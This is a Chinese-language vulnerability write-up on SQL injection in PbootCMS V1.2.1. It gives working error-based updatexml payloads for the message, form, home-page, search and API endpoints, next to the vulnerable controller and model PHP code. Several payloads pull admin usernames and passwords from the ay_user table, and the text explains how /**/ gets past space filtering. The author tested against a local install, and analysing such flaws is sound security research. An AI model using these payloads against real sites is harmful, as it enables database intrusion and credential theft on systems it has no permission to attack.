



PbootCMS sql注入
================

0x01 前台home模块注入漏洞
-------------------------

0x01.1 在线留言处insert sql注入
-------------------------------

### 0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
    post:
        contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
        content = 1111
        mobile = 1111

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\MessageController.php
方法：add(

    // 留言新增
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                // 验证码验证
                $checkcode = post('checkcode');
                if ($this->config('message_check_code')) {
                    // if (! $checkcode) {
                    //     alert_back('验证码不能为空！');
                    // }

                    if ($checkcode != session('checkcode')) {
                        alert_back('验证码错误！');
                    }
                }

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    alert_back('留言表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if (is_array($field_data)) { // 如果是多选等情况时转换
                        $field_data = implode(',', $field_data);
                    }
                    if ($value->required && ! $field_data) {
                        alert_back($value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . ' ';
                    }
                }

                // 设置额外数据
                if ($data) {
                    $data['acode'] = session('lg');
                    $data['user_ip'] = ip2long(get_user_ip());
                    $data['user_os'] = get_user_os();
                    $data['user_bs'] = get_user_bs();
                    $data['recontent'] = '';
                    $data['status'] = 0;
                    $data['create_user'] = 'guest';
                    $data['update_user'] = 'guest';
                }

                if ($this->model->addMessage($data)) {
                    session('lastsub', time()); // 记录最后提交时间
                    $this->log('留言提交成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= ' 来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    alert_location('提交成功！', '-1');
                } else {
                    $this->log('留言提交失败！');
                    alert_back('提交失败！');
                }
            } else {
                error('提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addMessage(data) 执行语句

路径：PbootCMS-V1.2.1\\apps\\home\\model\\ParserModel.php
方法：addMessage(

    // 新增留言
    public function addMessage($data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x01.2 免费通话insert sql注入
-----------------------------

注：本地测试的时候，这个地方的注入需要后台添加一条数据才能注！真实环境的话，开放了这个功能直接抓包即可
进入后台

### 0x08.2.1 漏洞演示

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
    post：
      tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\FormController.php
方法：add(

    // 表单提交
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                if (! $fcode = get('fcode', 'var')) {
                    alert_back('传递的表单编码有误！');
                }

                if ($fcode == 1) {
                    alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
                }

                // 验证码验证
                /*
                 * $checkcode = post('checkcode');
                 * if ($this->config('message_check_code')) {
                 * if (! $checkcode) {
                 * alert_back('验证码不能为空！');
                 * }
                 * if ($checkcode != session('checkcode')) {
                 * alert_back('验证码错误！');
                 * }
                 * }
                 */

                // 读取字段
                if (! $form = $this->model->getFormField($fcode)) {
                    alert_back('接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if (is_array($field_data)) { // 如果是多选等情况时转换
                        $field_data = implode(',', $field_data);
                    }
                    if ($value->required && ! $field_data) {
                        alert_back($value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . ' ';
                    }
                }

                // 设置创建时间
                if ($data) {
                    $data['create_time'] = get_datetime();
                }

                // 写入数据
                if ($this->model->addForm($value->table_name, $data)) {
                    session('lastsub', time()); // 记录最后提交时间
                    $this->log('提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= ' 来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    alert_location('提交成功！', '-1');
                } else {
                    $this->log('提交表单数据失败！');
                    alert_back('提交失败！');
                }
            } else {
                error('提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addForm($value->table_name, $data) 执行语句

路径：PbootCMS-V1.2.1\\apps\\home\\model\\ParserModel.php

    public function addForm($table, $data)
    {
        return parent::table($table)->insert($data);
    }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入.

0X01.3 前台首页注入
-------------------

0x08.3.1 漏洞演示 url:

    http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\ParserController.php
方法：index(

    // 首页 骚操作 注入
        // parserAfter -> parserSpecifyListLabel
        public function index()
        {
            $content = parent::parser('index.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserAfter()

    跟进 $content = $this->parser->parserAfter($content); 这个方法
    // 解析全局后置公共标签
        public function parserAfter($content)
        {
            ...
            $content = $this->parserSpecifyListLabel($content); // 指定列表
            return $content;
        }

方法：parserSpecifyListLabel(

    进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法
    // 解析指定分类列表标签
    public function parserSpecifyListLabel($content)
    {
      ...
      // 数据筛选 骚操作注入
      $where2 = array();
      foreach ($_GET as $key => $value) {
        if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
          $where2[$key] = get($key);
        }
      }
      ...
      // 读取数据
      if ($page) {
        $data = $this->model->getList($scode, $num, $order, $where1, $where2);
      } else {
        $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
      }
    }

这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext\_
开头，如果符合就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x08.4 前台搜索框注入
---------------------

### 0x08.4.1 漏洞利用

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

### 0x08.4.2 漏洞讲解

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\SearchController.php
方法：index()

    // 骚操作 注入
        // parserSearchLabel
        public function index()
        {
            $content = parent::parser('search.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
            $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserSearchLabel(

    进入以后 查看调用了 $content = $this->parser->parserSearchLabel($content);  方法
    // 解析内容搜索结果标签
    public function parserSearchLabel($content)
    {
      ...
      foreach ($_GET as $key => $value) {
        if (! ! $value = get($key, 'vars')) {
          $where2[$key] = $value;
        }
      }
      ...
      // 读取数据
      if (! $data = $this->model->getList($scode, $num, $order, $where1, $where2, $fuzzy)) {
        $content = str_replace($matches[0][$i], '', $content);
        continue;
      }
    }

这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x10 api模块注入
----------------

api模块的注入需要后端开启api功能，并且获得 api\_appid 与 api\_secret
才能注入。 或是说 开启了api功能并且关闭了API强制认证 这样也可以注入
所以较鸡助

0x10.1 接口注入一
-----------------

### 0x10.1.1 漏洞演示

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
    post：
        11=11

一定要post 要跑空post才能进流程

因为系统中会把 "空格"转为"\_" 所以使用/\*\*/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\\api\\controller\\CmsController.php 方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

    // 数据接收
    foreach ($_GET as $key => $value) {
      if (! ! $value = get($key, 'vars')) {
        $where[$key] = $value;
      }
    }
    $data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy);

从代码中看他会收集外部所有的 \$\_GET 带入 getList 进行入库查询 value
是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进
getList方法 路径：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php
function getList(

    // 列表内容
        public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
        {
            ...
            // 筛选条件支持模糊匹配
            return parent::table('ay_content a')->field($fields)
                ->where($where1, 'OR')
                ->where($where2)
                ->where($where, 'AND', 'AND', $fuzzy)
                ->join($join)
                ->order($order)
                ->page(1, $num)
                ->decode()
                ->select();
        }

这里我把关键代码放出来了，可以看到接收\$where以后直接仍进了数据库进行操作造成了注入

0x10.2 接口注入二
-----------------

### 0x10.2.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
    post:
        contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 111

0x10.2.2 漏洞讲解
文件：PbootCMS-V1.2.1\\apps\\api\\controller\\CmsController.php
方法：addmsg(

    // 新增留言   注入
        public function addmsg()
        {
            if ($_POST) {

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    json(0, '接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if ($value->required && ! $field_data) {
                        json(0, $value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . ' ';
                    }
                }

                // 设置其他字段
                if ($data) {
                    $data['acode'] = get('acode', 'var') ?: $this->lg;
                    $data['user_ip'] = ip2long(get_user_ip());
                    $data['user_os'] = get_user_os();
                    $data['user_bs'] = get_user_bs();
                    $data['recontent'] = '';
                    $data['status'] = 0;
                    $data['create_user'] = 'api';
                    $data['update_user'] = 'api';
                }

                // 写入数据
                if ($this->model->addMessage($value->table_name, $data)) {
                    $this->log('API提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= ' 来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    json(1, '表单提交成功！');
                } else {
                    $this->log('API提交表单数据失败！');
                    json(0, '表单提交失败！');
                }
            } else {
                json(0, '表单提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addMessage(data) 执行语句

文件：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php 函数：addMessage(

    // 新增留言
        public function addMessage($table, $data)
        {
            return parent::table('ay_message')->autoTime()->insert($data);
        }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x10.3 接口注入三
-----------------

### 0x10.3.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
    post:
        contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 123

0x10.3.2 漏洞讲解

    // 表单提交  注入
        public function addform()
        {
            if ($_POST) {

                if (! $fcode = get('fcode', 'var')) {
                    json(0, '传递的表单编码fcode有误！');
                }

                // 读取字段
                if (! $form = $this->model->getFormField($fcode)) {
                    json(0, '接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if ($value->required && ! $field_data) {
                        json(0, $value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . ' ';
                    }
                }

                // 设置创建时间
                if ($data) {
                    $data['create_time'] = get_datetime();
                }

                // 写入数据
                if ($this->model->addForm($value->table_name, $data)) {
                    $this->log('API提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= ' 来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    json(1, '表单提交成功！');
                } else {
                    $this->log('API提交表单数据失败！');
                    json(0, '表单提交失败！');
                }
            } else {
                json(0, '表单提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addForm(data) 执行语句

文件：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php 方法：addForm(

    // 新增表单数据
    public function addForm($table, $data)
    {
        return parent::table($table)->insert($data);
    }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

四、参考链接
------------

> <https://www.yuque.com/pmiaowu/bfgkkh/lrqvqv>
